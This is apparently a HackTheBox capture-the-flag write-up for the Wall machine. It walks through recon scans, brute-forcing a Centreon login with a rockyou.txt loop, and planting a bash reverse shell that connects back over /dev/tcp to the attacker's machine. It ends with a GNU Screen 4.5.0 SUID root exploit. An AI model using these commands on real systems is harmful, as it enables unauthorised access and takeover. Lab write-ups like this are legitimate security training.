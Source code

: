 ```yaml
---
layout: post
title: HackTheBox Wall (10.10.10.157) Writeup
description: >
  Hackthebox Wall Writeup
image: /assets/img/wall.png
noindex: false
---
```


<center><h3>Summary</h3></center>

- Use <b>curl</b> to perform a <b>POST</b> request to reveal a hidden directory
- Bruteforce the login credentials using <b>bash</b> and a <b>python</b> script
- Use the web interface to execute commands on the System to gain a reverse shell
- Exploit <b>GNU Screen 4.5.0</b> to get a root shell
<br>

First start with an Nmap Scan

```
# Nmap 7.80 scan initiated Fri Sep 20 15:45:55 2019 as: nmap -sV -sC -p- 10.10.10.157
Nmap scan report for 10.10.10.157
Host is up (0.059s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 20 15:46:43 2019 -- 1 IP address (1 host up) scanned in 47.73 seconds
```
Only 2 ports open. Lets start with port 80. Navigating to <b>http://10.10.10.157</b> I are greeted with an apache default installation

![home.png](../../resources/adb482f4ab6e4149a0ad7f07ba13e679.png)

Next I performed a <b>gobuster</b>. It only spit out a few results.
```
# gobuster dir -u http://10.10.10.157 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 30
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.157
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2019/09/21 18:48:24 Starting gobuster
===============================================================
/aa.php (Status: 200)
/monitoring (Status: 401)
/panel.php (Status: 200)
/server-status (Status: 403)
```
Checking out each result yields not much that can help me. Only the <b>monitoring</b> seemed useful since it prompts us for a Username and Password to log in with. I tried guessing the credentials but had no luck so I moved on.

![monitoring.png](../../resources/d44511721b4a41d19b370711401e1206.png)

Next I did a basic <b>Nikto</b> scan to see what it would pick up. Nothing amazing was found but it did tell me which <b>HTTP Methods</b> are alloId

```
# nikto -h http://10.10.10.157
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.157
+ Target Hostname:    10.10.10.157
+ Target Port:        80
+ Start Time:         2019-09-21 18:52:22 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 58cb1080cb0d2, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ AlloId HTTP Methods: OPTIONS, HEAD, GET, POST
+ 7863 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2019-09-21 19:00:56 (GMT-4) (514 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Using this info I used <b>curl</b> to send requests to each result from <b>gobuster</b>. Eventually I found something. Sending a <b>POST</b> request to <b>http://10.10.10.157/monitoring/</b> reveals another directory <b>/centreon</b>.
```
# curl -X POST http://10.10.10.157/monitoring/
<h1>This page is not ready yet !</h1>
<h2>I should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```
Navigating to <b>http://10.10.10.157/centreon</b> I are greeted with a login page. It is running Centreon v19.04

![login.png](../../resources/20a8fe81bb51454abfce84ebe0fd050b.png)

Doing a quick google search will reveal a *[RCE exploit](https://www.exploit-db.com/exploits/47069)* for this version of <b>centreon</b>.

![rce.png](../../resources/b09073c95e5c45b7a275419d605626b9.png)

The problem with this exploit is that it requires user credentials to work so first I decided to combine a bash script with this python script to bruteforce the login credentials. I used <b>admin</b> as the username.

<b>Bash Script</b>
```
cat /usr/share/wordlists/rockyou.txt | while read line; do python3 47069.py http://10.10.10.157/centreon admin $line 10.10.14.21 10001;sleep 0.5; echo password=$line; done
```
After letting that run for a bit I see that it tells us the password is <b>password1</b>
```
[+] Login token is : 2616bdbc1dddb74f1cbe25dd638be366                                                        
[+] Logged In Sucssfully                                                                                     
[+] Retrieving Poller token                                                                                  
47069.py:56: UserWarning: No parser was explicitly specified, so I'm using the best available HTML parser for
 this system ("lxml"). This usually isn't a problem, but if you run this code on another system, or in a diff
erent virtual environment, it may use a different parser and behave differently.                             

The code that caused this warning is on line 56 of the file 47069.py. To get rid of this warning, pass the ad
ditional argument 'features="lxml"' to the BeautifulSoup constructor.                                        

  poller_soup = BeautifulSoup(poller_html)                                                                   
[+] Poller token is : 1362243211de62f028c5350e4782ddc4                                                       
[+] Injecting Done, triggering the payload                                                                   
[+] Check your netcat listener !                                                                             
password=password1
```
For some reason I couldn't get the RCE to work and open up a reverse shell for me so I had to find another way. I did this by logging into the <b>centreon</b> web app using the credentials I brute forced. I then navigated to <b>Configuration > Commands > Miscellaneous</b> where you will see this.

![command.png](../../resources/2aa3711c1d8d4a09bab0ba1103822e1e.png)

Now to get my reverse shell I was unable to just type a <b>nc</b> command into the box to connect back to me, I had to do an extra step. First I created a bash script file on my kali machine that contains the command for the reverse shell
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.21/10000 0>&1
```

I then used <b>wget</b> from the web console combined with a <b>python SimpleHTTPServer</b> to download the file onto the box. Hit the small blue button to execute the command.

![wget.png](../../resources/7141b4ca40694e6e9eebcce329779ffc.png)

If done correctly you should see the file get downloaded from the <b>python SimpleHTTPServer</b>
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.157 - - [21/Sep/2019 20:07:41] "GET /shell.sh HTTP/1.1" 200 -
```

Now with the file on the system, I can see up our reverse listener
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
```
And to trigger the shell just go back to the web console and execute the command <b>bash shell.sh</b>.

![execute.png](../../resources/61bb19e311ee4e0f95d37bd2f80b803c.png)

If everything works you should see a shell spawn
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
Ncat: Connection from 10.10.10.157.
Ncat: Connection from 10.10.10.157:52120.
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$
```

Now the <b>user.txt</b> file is stored in <b>/home/shelby/</b> but I dont have the permissions to read it. Doing some quick manual enumeration did result in me finding much so I decided to use the <b>LinEnum.sh</b> script. I copied the script over to the box using the same method as <b>shell.sh</b> but this time I executed <b>wget</b> from the command line inside the shell.

Reading through the output of the script, there is and <b>SUID</b> file that stands out.
```
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```
A quick google search will reveal *[this](https://www.exploit-db.com/exploits/41154)* exploit. I once again copied the exploit over to the box using the same method. I then run the exploit and instantly become the root user. I run a <b>whoami</b> to confirm this. From here you can just grab both the user and root flags
```
$ bash screenroot.sh
bash screenroot.sh
~ gnu/screenroot ~
[+] First, I create our shell and library...
[+] Now I create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

whoami
root
```

